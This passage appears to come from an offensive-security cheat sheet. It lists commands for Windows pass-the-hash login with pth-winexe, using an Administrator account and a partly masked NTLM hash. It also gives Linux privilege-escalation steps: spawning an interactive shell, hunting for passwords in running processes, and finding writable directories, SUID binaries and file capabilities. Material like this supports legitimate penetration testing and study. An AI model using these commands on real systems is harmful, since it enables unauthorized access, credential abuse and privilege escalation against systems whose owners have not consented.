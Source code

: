 #### **Using Pass-the-Hash with WinExe**

```bash
pth-winexe -U <domain>/Administrator%aad3b43XXXXXXXX35b51404ee:e0fb1fb857XXXXXXXX238cbe81fe //<IP> cmd.exe  
```

* * *

### Linux Privilege Escalation

#### **Spawning a TTY Shell**

```bash
python -c 'import pty; pty.spawn("/bin/bash")'  
/bin/bash -i  
```

#### **Finding Writable Directories**

```bash
find / -writable -type d 2>/dev/null  
```

#### **Checking Installed Packages (Potential Exploits)**

```bash
dpkg -l  # Debian-based  
rpm -qa  # Red Hat-based  
```

#### **Checking Mounted Drives & Filesystems**

```bash
cat /etc/fstab  
lsblk  
df -h  
```

#### **Checking Running Processes for Passwords**

```bash
watch -n 1 "ps aux | grep pass"  
```

* * *

### Sudo and SUID Exploitation

#### **Finding SUID Binaries**

```bash
find / -perm -u=s -type f 2>/dev/null  
```

#### **Finding Capabilities**

```bash
getcap -r / 2>/dev/null  
```
